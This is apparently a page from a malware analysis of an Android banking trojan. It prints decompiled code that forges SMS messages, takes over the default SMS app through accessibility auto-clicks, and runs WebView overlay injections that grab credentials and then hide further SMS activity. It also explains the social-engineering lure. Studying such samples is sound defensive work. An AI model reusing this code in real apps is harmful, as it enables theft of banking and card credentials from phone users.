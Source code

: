 ```cs
                    public void run() {
                        ActivityGenerateFakeSMS.this.Tools.notifyAndOpenSMS(ActivityGenerateFakeSMS.this);
                    }
                };
                this._const.getClass();
                handler0.postDelayed(activityGenerateFakeSMS$10, 30000L);
                this.finishAndRemoveTask();
            }
            catch(Exception unused_ex) {
            }

            return;
        }
    }

    @Override  // android.app.Activity
    protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        if(this.getIntent().getExtras() == null) {
            this.finishAndRemoveTask();
            return;
        }

        this.Sender = this.getIntent().getExtras().getString("SENDER");
        this.Body = this.getIntent().getExtras().getString("BODY");
        ServiceAccessibility.autoClickForSmsManager = true;
        if(!this.Tools.isDefaultSMSApp(this)) {
            Intent intent0 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
            intent0.putExtra("package", this.getPackageName());
            this.startActivityForResult(intent0, 0x14B05);
            return;
        }

        this.WriteSms(this.Body, this.Sender);
    }
```

The attacker uses social engineering to lure the user to open a specifc app such as banking app by pushing fake notifications or sending SMSs to the messaging app.

When the user open any targeted app and the malware successeded to steal the credential such as login credential or/and credit card credential, the malware labeled this app and don't perform `Overlay attack` against this app.

```cs
public void onPageFinished(WebView webView0, String s) {
                super.onPageFinished(webView0, s);
                if(s.contains("|DONE|")) {
                    try {
                        Utils.msg(ActivityInjection.this, "[Injector] Grabbing on " + ActivityInjection.pkg + " completed.");
                        Context context0 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.delInjectablePackage(context0, ActivityInjection.pkg, Boolean.valueOf(false));
                        Context context1 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.enableInjections(context1, false);
                        Context context2 = ActivityInjection.this.mContext;
                        ActivityInjection.this.store.set(context2, "LOCKER_PKG", "");
                        Context context3 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.startHiddenSMS(context3, true);
                        if(ActivityInjection.pkg.equals("com.android.vending")) {
                            Context context4 = ActivityInjection.this.mContext;
```